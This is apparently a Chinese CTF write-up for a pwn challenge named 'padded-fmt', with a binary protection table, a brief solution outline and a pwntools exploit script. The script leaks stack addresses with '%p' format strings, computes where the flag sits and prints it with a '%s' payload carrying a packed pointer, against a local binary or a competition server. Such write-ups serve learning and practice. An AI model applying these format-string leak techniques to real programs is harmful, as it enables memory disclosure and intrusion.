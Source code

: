 # padded-fmt 

*李华在学习了格式化字符串漏洞后大受震撼，但他突然想到“对啊，如果我给`%n$p`里的`$`过滤掉，
再配合上一个很大块的空数据让printf随便泄露，不就是个安全的printf了吗！”*

*于是李华写了下面的这个 demo，看看聪明的你能不能打他的脸*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |on    |
|strip |no    |

## 解题思路

程序将flag读到了ctx（栈）上，虽然栈上没有触手可及的的栈地址，但是寄存器里有，
我们就可以推算出ctx的地址，接下来以这个地址用字符串的方式打印就可以获得flag

## EXPLOIT

```python
from pwn import *
context.terminal = ['tmux','splitw','-h']
GOLD_TEXT = lambda x: f'\x1b[33m{x}\x1b[0m'
EXE = './fmt'

def payload(lo:int):
    global sh
    if lo:
        sh = process(EXE)
        if lo & 2:
            gdb.attach(sh)
    else:
        sh = remote('competition.blue-whale.me', 20603)
    elf = ELF(EXE)

    sh.sendlineafter(b'name?\n', b'%p,%p,%p,%p,%p,%p,%p')
    rsp = int(sh.recvuntil(b'have', True).decode().split(',')[6], 16)
    success(GOLD_TEXT(f'Leak rsp: {hex(rsp)}'))
    flagAddr = rsp + 0x470
    
    sh.sendlineafter(b'say?\n', (b'%p,'*16 + b'%s').ljust(0x38, b'\0') + p64(flagAddr))
    flag = sh.recvuntil(b'}').decode().split(',')[-1]
    success(f'FLAG is: {flag}')
    sh.close()
```
